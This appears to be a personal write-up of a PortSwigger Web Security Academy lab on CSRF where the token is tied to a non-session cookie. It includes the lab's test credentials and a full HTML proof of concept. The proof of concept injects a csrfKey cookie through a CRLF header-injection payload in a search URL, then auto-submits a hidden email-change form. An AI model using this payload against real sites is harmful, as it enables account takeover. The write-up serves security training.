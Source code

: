 *This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`*

Noticed that there was a `csrfKey` cookie along with a `csrf` token for both the login request:
![[Screenshot 2024-05-23 at 11.16.28 AM.png]]
and the change email request:
![[Screenshot 2024-05-23 at 11.18.56 AM.png]]
The cookie and token remained the same for each request. 
I to figure out a way to inject the `csrfKey` into the victim browser before feeding my token to the victim. I found out that I could set cookies when searching through the blogs:
![[Screenshot 2024-05-23 at 2.33.01 PM.png]]
I figured that I could break out of the header and inject my own cookie, I sent the request to *Repeater*, and modified the request to the following:
![[Screenshot 2024-05-23 at 2.46.45 PM.png]]
Injected the following code into the exploit server:
```html 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tester&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="SwRYPM8iZOZPnrvxwB89UZG6282Xu7Em" />
      <!-- <input type="submit" value="Submit request" /> -->
    </form>
	<img src="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/?search=test;+SameSite=None;%3b%0d%0aSet-Cookie%3a+csrfKey%3d87d6P8UhArwyErEyUn3MKqrIp79v6KTi;+SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
Stored and delivered the exploit to solve the lab. 

